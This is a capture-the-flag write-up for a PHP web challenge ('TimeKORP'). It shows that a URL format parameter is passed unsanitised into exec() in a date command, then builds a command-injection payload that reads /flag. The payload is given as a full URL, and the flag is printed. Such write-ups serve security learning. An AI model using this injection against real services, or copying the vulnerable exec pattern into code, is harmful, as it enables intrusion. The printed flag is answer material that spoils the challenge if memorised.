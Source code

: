 # TimeKORP

Are you ready to unravel the mysteries and expose the truth hidden within
KROP's digital domain? Join the challenge and prove your prowess in the world
of cybersecurity. Remember, time is money, but in this case, the rewards may be
far greater than you imagine.

## How to Play

This is a php server. let's find how the current date is programmed.

In the 'challenge/index.php' file, the `$router->new('GET', '/', 'TimeController@index');`
Points to the 'challenge/controllers/TimeController.php' file. In the `index`
method, `isset($_GET['format'])` is going to read a URL parameter. The
`$time = new TimeModel($format);` will create a new `TimeModel` object with the
`$format` parameter. In the `challenge/models/TimeModel.php` the class
constructor will set the `$format` property to the `$format` parameter. The
`$time = exec($this->command);` will execute the `$command` property. We can
inject a command in the URL parameter.

The command is `"date '+" . $format . "' 2>&1";` so we can inject a format
string. The injection should be a valid bash command.

We can control `format so let's remove it.

```bash
"date '+ <bad_input> ' 2>&1";
```
First need to close both single quotes.

```bash
"date '+' <bad_input> '' 2>&1";
```

Cancel the previous command by adding a semicolon.

```bash
"date '+'; <bad_input> '' 2>&1";
```

From the `./Dockerfile` It's known that the flag is in the `/flag` file.

```bash
"date '+'; echo `cat /flag` '' 2>&1";
```

This will execute the subcommand `cat /flag` and echo the result.

The url is

```php
94.237.59.1:51145/?format=%Y-%m-%d
```

To inject the command, the url will be any change in the format parameter.

```php
http://94.237.59.1:51145/?format='; echo `cat /flag` '
```

## Flag

```
HTB{t1m3_f0r_th3_ult1m4t3_pwn4g3}
```
